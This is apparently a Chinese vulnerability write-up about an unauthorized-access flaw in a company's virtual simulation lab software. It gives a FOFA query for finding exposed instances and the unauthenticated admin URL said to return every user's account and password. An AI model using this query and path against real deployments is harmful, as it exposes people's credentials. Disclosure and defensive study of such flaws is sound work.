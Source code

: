 # 阿尔法科技-虚拟仿真实验室-未授权访问漏洞

## 漏洞描述

阿尔法科技 虚拟仿真实验室 存在未授权访问漏洞，通过访问构造的Url可以获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 虚拟仿真实验室

## FOFA

> [!NOTE]
>
> body="河南阿尔法科技有限公司"

## 漏洞复现

未授权的Url为

```
/admin/student/studentlist.html?page=1 
```

![](阿尔法科技-虚拟仿真实验室-未授权访问漏洞.assets/1627363124422453.jpg)

成功获取所有用户的账号密码信息

## 参考文章

http://www.0dayhack.net/index.php/1702/